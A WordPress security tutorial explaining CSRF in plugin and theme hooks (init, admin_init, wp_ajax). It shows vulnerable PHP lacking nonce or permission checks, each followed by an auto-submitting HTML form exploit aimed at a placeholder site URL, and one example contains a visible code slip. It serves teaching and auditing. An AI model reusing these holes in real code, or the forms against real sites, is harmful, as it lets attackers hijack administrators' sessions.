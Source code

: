 ```yaml
---
title: Cross-Site Request Forgery (CSRF)
contributors:
    - rafiem
---
```


## Introduction

This article covers cases of possible CSRF on WordPress. This includes improper hook/function/code usage inside of the plugin/theme which can be used to trick privileged users into doing sensitive actions.

By default, processes on hooks or functions that are used on plugins or themes don't have a permission and nonce value check, that's why the developer needs to manually perform a permission check using [`current_user_can`](/wordpress/wordpress-internals/functions/#current_user_can) function and the nonce value check using [`wp_verify_nonce`](/wordpress/wordpress-internals/functions/#wp_verify_nonce), [`check_admin_referer`](/wordpress/wordpress-internals/functions/#check_admin_referer) or [`check_ajax_referer`](/wordpress/wordpress-internals/functions/#check_ajax_referer) functions.

## `init` hook

For more details on the `init` hook, please refer to this [documentation](/wordpress/wordpress-internals/hooks/#init-hook).

Example of vulnerable code :

```php
add_action("init", "check_if_update_2");

function check_if_update_2(){
    if(isset($_GET["update"])){
        if(current_user_can("manage_options")){
            update_option("user_data", sanitize_text_field($_GET_["data"]));
        }
    }
}
```

To exploit this, unauthenticated users just need to craft and serve a malicious HTML file and trick privileged users into visiting the HTML file to do the sensitive actions.


```html
<html>
  <body>
    <form action="<WORDPRESS_BASE_URL>" method="POST">
      <input type="hidden" name="update" value="1" />
      <input type="hidden" name="data" value="test" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```

## `admin_init` hook

For more details on the `admin_init` hook, please refer to this [documentation](/wordpress/wordpress-internals/hooks/#admin_init-hook).

Example of vulnerable code :

```php
add_action("admin_init", "delete_admin_menu_2");

function delete_admin_menu_2(){
    if(isset($_POST["delete"])){
        if(current_user_can("manage_options")){
            delete_option("custom_admin_menu");
        }
    }
}
```

To exploit this, unauthenticated users just need to craft and serve a malicious HTML file and trick privileged users into visiting the HTML file to do the sensitive actions.

```html
<html>
  <body>
    <form action="<WORDPRESS_BASE_URL>/wp-admin/admin-ajax.php?action=heartbeat" method="POST">
      <input type="hidden" name="delete" value="1" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```

## `wp_ajax_{$action}` hook

For more details on the `wp_ajax_{$action}` hook, please refer to this [documentation](/wordpress/wordpress-internals/hooks/#wp_ajax_action-hook).

Example of vulnerable code :

```php
add_action("wp_ajax_update_post_data", "update_post_data_2");

function update_post_data_2(){
    if(isset($_POST["update"])){
        $post_id = get_post($_POST["id"]);
        update_post_meta($post_id, "data", sanitize_text_field($_POST["data"]));
    }
}
```

To exploit this, unauthenticated users just need to craft and serve a malicious HTML file and trick privileged users into visiting the HTML file to do the sensitive actions.

```html
<html>
  <body>
    <form action="<WORDPRESS_BASE_URL>/wp-admin/admin-ajax.php" method="POST">
      <input type="hidden" name="action" value="update_post_data" />
      <input type="hidden" name="id" value="1" />
      <input type="hidden" name="update" value="1" />
      <input type="hidden" name="data" value="test" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      document.forms[0].submit();
    </script>
  </body>
</html>
```